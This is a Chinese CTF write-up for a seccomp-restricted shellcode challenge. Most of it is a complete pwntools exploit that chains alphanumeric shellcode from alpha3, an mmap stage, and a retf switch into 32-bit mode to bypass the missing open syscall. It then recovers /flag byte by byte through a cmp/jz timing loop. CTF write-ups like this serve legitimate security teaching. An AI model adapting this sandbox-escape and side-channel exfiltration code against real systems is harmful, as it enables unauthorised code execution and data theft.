[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203742-870b8ae0-3b68-1.png)

发现只有read,mmap，但是又fstat，所以可以解决没有open的情况，没有write可以利用loop循环，用cmp卡住程序，从而进行单字节爆破得到flag，所以这是上面两个题目的总结

exp:

```plain
#!/usr/bin/env python
import os
import time
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def toPrintable(raw):
    with open("/tmp/raw","wb") as f:
        f.write(asm(raw,arch='amd64'))
    result = os.popen("python ~/pwntools/alpha3/ALPHA3.py x64 ascii mixedcase rbx --input=/tmp/raw").read()
    print("[*] Shellcode %s"%result)
    return result

def exp(p,a,b):
    shellcode1 = '''
        mov r10,rbx
        add r10w,0x0140
        xor rdi,rdi
        mov rsi,r10    
        xor rdx,rdx
        add dx,0x1040
        xor rax,rax
        syscall
        jmp r10
    '''
    shellcode2 = '''

        mov rdi,0x40000000
        mov rsi,0x1000
        mov rdx,0x7
        mov r10,0x22
        mov r8,0xFFFFFFFF
        xor r9,r9
        mov rax,0x9
        syscall

        mov rsi,rdi
        xor rdi,rdi
        mov rdx,0x1000
        xor rax,rax
        syscall
        jmp rsi
    '''
    shellcode3_ = '''
        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-3
        ret 
    '''.format(a,b) if a==0 else '''

        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-4
        ret 
    '''.format(a,b)
    # shellcode1 = toPrintable(shellcode1)
    # shellcode2 = asm(shellcode2,arch='amd64')
    # shellcode3 = asm(shellcode3,arch='amd64')
    # print "".join("\\x%02x"%ord(_) for _ in asm(shellcode,arch='amd64'))
    shellcode1 = "Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M144x8n0R094y4l0p0S0x188K055M4z0x0A3r054q4z0q2H0p0z402Z002l8K4X00"
    shellcode2 = "\x48\xc7\xc7\x00\x00\x00\x40\x48\xc7\xc6\x00\x10\x00\x00\x48\xc7\xc2\x07\x00\x00\x00\x49\xc7\xc2\x22\x00\x00\x00\x49\xb8\xff\xff\xff\xff\x00\x00\x00\x00\x4d\x31\xc9\x48\xc7\xc0\x09\x00\x00\x00\x0f\x05\x48\x89\xfe\x48\x31\xff\x48\xc7\xc2\x00\x10\x00\x00\x48\x31\xc0\x0f\x05\xff\xe6"
    shellcode3 = "\x49\xba\x00\x00\x00\x00\x23\x00\x00\x00\x48\x83\xc6\x13\x4c\x01\xd6\x56\xcb\xbc\x00\x04\x00\x40\x6a\x67\x68\x2f\x66\x6c\x61\x89\xe3\x31\xc9\xba\x07\x00\x00\x00\xb8\x05\x00\x00\x00\xcd\x80\x6a\x33\x68\x37\x00\x00\x40\xcb\x48\x89\xc7\x48\xc7\xc6\x00\x05\x00\x40\x48\xc7\xc2\x80\x00\x00\x00\x48\x31\xc0\x0f\x05\x6a\x00"
    shellcode3 += asm('cmp byte ptr[rsi+{0}],{1};jz $-3;ret'.format(a,b) if a == 0 else 'cmp byte ptr[rsi+{0}],{1};jz $-4;ret'.format(a,b),arch='amd64')
    p.sendline(shellcode1)
    p.sendline(shellcode2)
    # raw_input()
    p.sendline(shellcode3)
    try:
        p.recv(timeout = 2)
    except:
        p.close()
        return 0
    else:
        return 1
def main():
    flag = [" " for _ in range(0x30)]
    for i in range(0,100):
        # for char in "{}1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        for char in range(0x20,0x7e+1):
            # char = ord(char)
            p = process("./shellcode")
            if exp(p,i,char):
                flag[i] = chr(char)
                tmp = "".join(_ for _ in flag)
                print(">>>>> %s"%tmp)
                break
            p.close()
if __name__ == '__main__':
    main()
```

这里涉及到一个工具**alpha3**,可以生成**纯字符的shellcode**，具体使用以及安装可以借鉴下面参考中给出的链接，这个师傅整理的非常方便了

# 参考

[shellcode 的艺术 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6645#toc-5)

[Alphanumeric Shellcode：纯字符Shellcode生成指南 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/232280.html)
